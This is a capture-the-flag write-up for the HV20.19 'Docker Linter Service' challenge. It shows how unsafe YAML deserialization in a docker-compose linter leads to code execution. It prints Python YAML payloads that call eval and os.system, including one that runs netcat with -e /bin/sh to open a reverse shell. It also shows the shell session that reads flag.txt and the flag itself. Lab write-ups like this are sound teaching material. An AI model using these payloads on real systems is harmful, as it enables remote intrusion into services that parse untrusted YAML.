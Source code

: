 # HV20.19 Docker Linter Service

_Docker Linter is a useful web application ensuring that your Docker-related files follow best practices. Unfortunately, there's a security issue in there..._

## Requirements

_This challenge requires a reverse shell. You can use the provided Web Shell or the VPN to solve this challenge (see `RESOURCES` on top)._

_Note: The VPN connection information has been updated._

---

![](docker-linter.png)

There are the following linting service:

- **Dockerfile**
    - [hadolint](https://github.com/hadolint/hadolint)
    - [dockerfile_lint](https://github.com/projectatomic/dockerfile_lint)
    - [dockerlint.js](https://www.npmjs.com/package/dockerlint)
- **docker-compose.yml**
    - Basic syntax check
    - yamllint
    - docker-compose
- **.env files**
    - [dotenv-linter](https://github.com/dotenv-linter/dotenv-linter)

From the beginning, I was suspicious about the YAML deserialization (i.e. linters for Docker compose)
as I have seen it being vulnerable before.

I found this [CTF write-up](https://hackmd.io/@harrier/uiuctf20) and
[YAML Deserialization Attack in Python](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf).

My first payload was a simple test, if I can get code execution:
```yaml
!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ '__import__("time").sleep(10)' ]]]
```

Yes, I can. The response was delayed by 10 seconds. The next payload was pretty much the same
but this time using a shell command:
```yaml
!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('sleep 10')" ]]]
```

Works! Time go get the reverse shell. At first, open a listening port in the web console:
```
Linux 6b6bd84b-cb5f-49fe-9cda-083a9bf654ee 3.10.0-1127.19.1.el7.x86_64 #1 SMP Tue Aug 25 17:23:54 UTC 2020 x86_64
Welcome to the Hacking-Lab Web Shell.
Your IP is 10.2.0.5. Only use ports 1337 or 4242 for reverse shells!
hacker@6b6bd84b-cb5f-49fe-9cda-083a9bf654ee:~$ nc -lv
listening on [any] 38413 ...
```

YAML payload:
```
!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('nc 10.2.0.5 38413 -e /bin/sh')" ]]]
```

Back to the web console:
```
connect to [10.2.0.5] from tmp_docker-linter-6f37230f-1144-4b7d-b6c7-c6c2221e2519_1.tmp_default [10.2.0.4] 37963
$ ls
app.py
bin
dockerfile_lint_rules
flag.txt
linting.py
node_modules
package-lock.json
requirements.txt
static
templates
$ cat flag.txt
HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}
```
